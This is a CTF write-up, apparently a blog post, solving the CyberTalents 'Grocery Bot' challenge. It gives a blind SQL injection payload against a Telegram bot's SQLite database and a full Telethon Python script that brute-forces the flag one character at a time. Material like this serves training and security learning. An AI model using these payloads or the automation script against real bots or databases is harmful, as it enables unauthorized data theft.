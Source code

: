 ```yaml
---
title: Grocery Bot Web CTF WriteUp @CyberTalents
author: MBZ0x7
date: 2021-09-06 15:10:00 +0800
categories: [CTF]
tags: [ctf,cybertalents]
pin: false
---
```


### Description
This challenge is hard and requires programming skills to solve it quickly.
```
Its Shopping day

Telegram alias: @ctgrocerybot
```
![](../../assets/posts/1/1.png)

### Enumeration
After trying different things. I concluded that it's vulnerable to blind SQLi.
Also, it's using Sqlite.
You can learn more about this type of sqli vulnerability from [here.](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses
)

### Manual Exploitation
The payload that we'll be using is below.
```sql
/price flag' AND (SELECT CASE WHEN (SUBSTR(flag,1,1)='a') THEN 1/0 ELSE 'a' END FROM flags)='a"
```
Basically, we'll test lower case alphabets, numbers and underscore for each character flag !

Indeed, you should test uppercase and other non alphanumeric chars, but in our case I know flag possible chars.

In total, over than 3k lines to send to the bot, but you can reduce them by guessing some words in the flag and knowing how it starts,...

### Automatic Exploitation
The problem here that we can't use sqlmap because Telegram uses Websockets for communication.

So, the solution is to write a client to talk to Telegram API and send all payloads to the bot.

First, go to [my.telegram.org/auth](https://my.telegram.org/auth). Add and confirm your phone then go to API development tools and fill in the form with any data.
After that, you'll receive an API_ID and API_HASH that you'll use in the script below.

```python
from telethon.sync import TelegramClient
from string import ascii_lowercase, ascii_uppercase, digits
import time

bot = "@ctgrocerybot"

api_id = 
api_hash = ""

flag_chars = ascii_lowercase + digits + "_"

sleep = 0.5
success = "the item you requested is not found"


flag = "FLAG{"

with TelegramClient('session',api_id,api_hash) as client:
    for pos in range(6, 43):
        for char in flag_chars:
            payload = "/price flag' AND (SELECT CASE WHEN (SUBSTR(flag," + str(
                pos) + ",1)='" + char + "') THEN 1/0 ELSE 'a' END FROM flags)='a"
            print("--> Sending payload: " + payload)
            msg = client.send_message(bot, payload)
            payload_response = client.get_messages(bot)
            print(payload_response[0].message)
            if payload_response[0].message == success:
                flag += char
                print("\033[91m--> Flag: " + flag + "\033[00m")
                break
            print("--> Sleeping for 0.5 seconds")
            time.sleep(sleep)
    client.run_until_disconnected()
flag += "}"
print("\033[91m--> Flag: " + flag + "\033[00m")
```

Make sure to replace `bot`,`api_id` and `api_hash` variables with the corresponding values
